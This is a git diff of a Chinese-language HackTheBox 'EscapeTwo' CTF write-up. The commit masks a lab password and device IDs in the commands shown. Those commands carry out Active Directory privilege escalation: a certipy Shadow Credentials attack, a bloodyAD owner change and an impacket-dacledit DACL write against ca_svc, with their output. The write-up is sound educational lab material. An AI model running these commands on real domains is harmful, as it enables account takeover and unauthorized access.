

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md, 3 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md
+++ b/HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md
@@ -738,7 +738,7 @@ Ryan 有 `ca_svc` 的 WriteOwner 權限\
 利用 ryan 冒充 ca_svc 身分，嘗試取得 Kerberos TGT 與 NTLM Hash
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
+└─$ certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysD*****' -account ca_svc -dc-ip 10.10.11.51
 
 Certipy v4.8.2 - by Oliver Lyak (ly4k)
 
@@ -746,8 +746,8 @@ Certipy v4.8.2 - by Oliver Lyak (ly4k)
 [*] Generating certificate
 [*] Certificate generated
 [*] Generating Key Credential
-[*] Key Credential generated with DeviceID '59bf8f52-d75b-2973-8d51-8ce3af99a934'
-[*] Adding Key Credential with device ID '59bf8f52-d75b-2973-8d51-8ce3af99a934' to the Key Credentials for 'ca_svc'
+[*] Key Credential generated with DeviceID '59bf8f52-d75b-2973-8d51-************'
+[*] Adding Key Credential with device ID '59bf8f52-d75b-2973-8d51-************' to the Key Credentials for 'ca_svc'
 [-] Could not update Key Credentials for 'ca_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
 
 ```
@@ -769,7 +769,7 @@ Certipy v4.8.2 - by Oliver Lyak (ly4k)
 (Ryan 有 `ca_svc` 的 WriteOwner 權限)
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ bloodyAD -d sequel.htb --dc-ip 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
+└─$ bloodyAD -d sequel.htb --dc-ip 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysD*****' set owner 'ca_svc' 'ryan'
 
 [+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
 ```
@@ -782,7 +782,7 @@ Certipy v4.8.2 - by Oliver Lyak (ly4k)
 使用 impacket-dacledit 賦予 ryan 完整 DACL 權限
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ impacket-dacledit -action write -principal ryan -target ca_svc -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3
+└─$ impacket-dacledit -action write -principal ryan -target ca_svc -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysD*****
 
 /usr/share/doc/python3-impacket/examples/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'
   'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
@@ -831,7 +831,7 @@ Impacket v0.13.0.dev0+20250430.174957.756ca96e - Copyright Fortra, LLC and its a
 #### 9.3 再次嘗試 Shadow Credentials Attack
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
+└─$ certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysD*****' -account ca_svc -dc-ip 10.10.11.51
 
 Certipy v4.8.2 - by Oliver Lyak (ly4k)
 
````
Also changed, not shown: other parts of HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md (+30 -30 lines).
